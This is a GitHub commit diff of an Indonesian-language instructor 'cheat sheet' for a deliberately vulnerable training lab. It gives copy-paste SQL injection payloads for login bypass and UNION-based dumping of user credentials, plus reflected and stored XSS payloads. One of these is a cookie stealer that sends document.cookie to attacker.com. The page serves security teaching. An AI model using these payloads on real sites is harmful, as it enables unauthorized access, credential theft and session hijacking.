

Before and after one commit to gegege357/act-lab, a Markdown page: CHEAT.md, the part around one of its changes. Shown at 81% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
Final version of CHEAT.md: The Ultimate Instructor Bible

```diff
--- a/CHEAT.md
+++ b/CHEAT.md
@@ -1,61 +1,68 @@
-# 🛡️ ACT LAB :: INSTRUCTOR HANDBOOK (NATIONAL SEMINAR EDITION)
+# 🛡️ ACT LAB :: THE ULTIMATE INSTRUCTOR BIBLE (SEMINAR EDITION)
 
-Buku panduan ini berisi **Payload Langsung** untuk demonstrasi eksploitasi cepat di depan audiens. Gunakan ini untuk menunjukkan kerentanan secara instan.
+Dokumen ini adalah panduan lengkap untuk demonstrasi eksploitasi di ACT LAB. Gunakan payload di bawah ini untuk menunjukkan berbagai teknik serangan dari level Basic hingga Advanced.
 
 ---
 
-## 1. SQL INJECTION :: AUTH BYPASS
-**Target:** Login Page (`/lab/sqli-login`)
+## 1. SQL INJECTION (SQLi) :: AUTHENTICATION BYPASS
+**Target:** Login Gateway (`/lab/sqli-login`)
+**Tujuan:** Masuk sebagai Admin tanpa mengetahui password.
 
-### ⚡ Direct Payload (Copy-Paste)
-*   **Username:** `admin`
-*   **Password:** `' OR '1'='1' --`
-*   **Alternative (Nyeleneh):** `admin' --`
+### ⚡ Daftar Payload (Direct Copy)
+*   **Basic Bypass:** `admin' --`
+*   **Logic Bypass:** `' OR '1'='1' --`
+*   **Double Quote Bypass:** `admin" --`
+*   **No Whitespace (Nyeleneh):** `admin'/**/--`
+*   **Always True Logic:** `' OR 1=1 LIMIT 1 --`
 
-### 🛠️ Manual Step-by-Step
-1. Jelaskan bahwa input password tidak divalidasi.
-2. Karakter `'` akan memutus query SQL di server.
-3. Logic `'1'='1'` akan selalu bernilai TRUE, memaksa server memberikan akses tanpa password yang benar.
+### 🛠️ Metodologi Manual
+1.  **Analisis:** Masukkan `'` (single quote) di field password. Tunjukkan error SQL ke audiens.
+2.  **Penjelasan:** Jelaskan bahwa karakter `'` memutus query asli server.
+3.  **Eksploitasi:** Gunakan `--` (komentar SQL) untuk mematikan sisa query (pengecekan password), sehingga server hanya mengecek username.
 
 ---
 
-## 2. SQL INJECTION :: UNION EXTRACTION
-**Target:** Search Page (`/lab/sqli-union`)
+## 2. SQL INJECTION (SQLi) :: UNION-BASED EXTRACTION
+**Target:** Search Engine (`/lab/sqli-union`)
+**Tujuan:** Mencuri data sensitif (Flag/Password) dari tabel lain.
 
-### ⚡ Direct Payload (Copy-Paste)
-*   **Search Box:** `' UNION SELECT 1,flag,3,4,5,6,7,8 FROM challenges--`
-
-### 🛠️ Manual Step-by-Step
-1. Masukkan `' ORDER BY 8--` untuk membuktikan ada 8 kolom.
-2. Gunakan `UNION SELECT` untuk menggabungkan hasil pencarian dengan data dari tabel lain.
-3. Taruh kolom `flag` di posisi kedua untuk menampilkan Flag rahasia di layar hasil pencarian.
+### ⚡ Step-by-Step Payload
+1.  **Cek Jumlah Kolom:**
+    *   `' ORDER BY 8 --` (Membuktikan ada 8 kolom)
+2.  **Cek Kolom yang Muncul di Layar:**
+    *   `' UNION SELECT 1,2,3,4,5,6,7,8 --` (Tunjukkan angka mana yang muncul di UI)
+3.  **Dumping Tabel Users:**
+    *   `' UNION SELECT 1,username,password,email,5,6,7,8 FROM users --`
+4.  **Dumping Flag (Target Utama):**
+    *   `' UNION SELECT 1,flag,3,4,5,6,7,8 FROM challenges --`
 
 ---
 
-## 3. XSS (STORED) :: GUESTBOOK ATTACK
-**Target:** Guestbook Page (`/lab/xss-stored`)
+## 3. XSS (REFLECTED) :: CLIENT-SIDE ATTACK
+**Target:** Search Bar (`/lab/xss-reflected`)
+**Tujuan:** Menjalankan script di browser korban via URL.
 
-### ⚡ Direct Payload (Copy-Paste)
-*   **Message:** `<script>alert('PWNED BY ACT LAB');</script>`
-*   **Alternative (Bypass):** `<img src=x onerror="alert('XSS_SUCCESS')">`
+### ⚡ Daftar Payload Nyeleneh
+*   **Classic:** `<script>alert('PWNED')</script>`
+*   **Image Error (Sering di GitHub):** `<img src=x onerror=alert(1)>`
+*   **SVG Animation:** `<svg/onload=alert(document.domain)>`
+*   **HTML5 Details:** `<details open ontoggle=alert('ACT_LAB')>`
+*   **Marquee Fun:** `<marquee><h1>SYSTEM HIJACKED BY ACT LAB</h1></marquee>`
 
-### 🛠️ Manual Step-by-Step
-1. Masukkan script HTML/JS ke dalam form komentar.
-2. Jelaskan bahwa server menyimpan script ini secara permanen di database.
-3. Setiap kali user lain mengunjungi halaman, browser mereka akan menjalankan script tersebut secara otomatis.
+### 🛠️ Metodologi Manual
+1.  Tunjukkan bagaimana input di URL `?q=` langsung muncul di halaman tanpa difilter.
+2.  Jelaskan bahwa browser menganggap input kita sebagai kode perintah, bukan teks biasa.
 
 ---
 
-## 4. XSS (REFLECTED) :: SEARCH PARAMETER
-**Target:** Search URL (`/lab/xss-reflected`)
+## 4. XSS (STORED) :: PERSISTENT MALWARE
+**Target:** Global Guestbook (`/lab/xss-stored`)
+**Tujuan:** Menanam script permanen di database.
 
-### ⚡ Direct Payload (Copy-Paste URL)
-*   `?q=<marquee><h1>HIJACKED</h1></marquee>`
-*   `?q=<script>alert(document.domain)</script>`
-
-### 🛠️ Manual Step-by-Step
-1. Masukkan payload ke parameter pencarian di URL.
-2. Tunjukkan bahwa input kita "dipantulkan" (reflected) langsung ke halaman tanpa filter, sehingga browser mengeksekusinya sebagai kode HTML.
+### ⚡ Daftar Payload Pro
+*   **Persistent Popup:** `<script>alert('This message is stored in DB!')</script>`
+*   **Cookie Stealer Simulation:** `<script>new Image().src='http://attacker.com/log?c='+document.cookie;</script>`
+*   **UI Deface:** `<style>body{background:blue !important;}</style><h1>HACKED</h1>`
 
 ---
 
```
Also changed, not shown: other parts of CHEAT.md (+30 -33 lines).
